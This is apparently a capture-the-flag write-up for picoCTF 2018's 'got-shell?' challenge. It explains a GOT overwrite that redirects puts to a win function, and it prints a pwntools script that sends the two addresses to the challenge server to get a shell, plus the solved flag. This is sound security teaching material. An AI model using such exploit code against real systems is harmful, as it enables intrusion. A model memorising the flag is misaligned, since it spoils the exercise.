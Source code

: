> got-shell? - Points: 350 - (Solves: 85)
> Can you authenticate to this service and get the flag? Connect to it with nc 2018shell1.picoctf.com 46464. Source


This seems to be a GOT overwrite challenge where you can supply a memory and overwrite it with whatever you'd like.

In this case we need 2 addresses, the GOT table address we want to overwrite and the address we want to overwrite it with.

Using ida we find the GOT address for a library function. I'll use puts.

`Puts GOT address = 0x804A00C`

And the address to the win function is `0x0804854B`.

Using a small python script we can easily exploit the program to get a shell:

```python
from pwn import *

c = connect("2018shell1.picoctf.com", 46464)

c.sendline("804A00C")
c.sendline("0804854B")

# at this point we have a shell
# and we simply need to `cat flag.txt` to get the flag
c.interactive()

```

Flag: `picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_7a9e7634}`
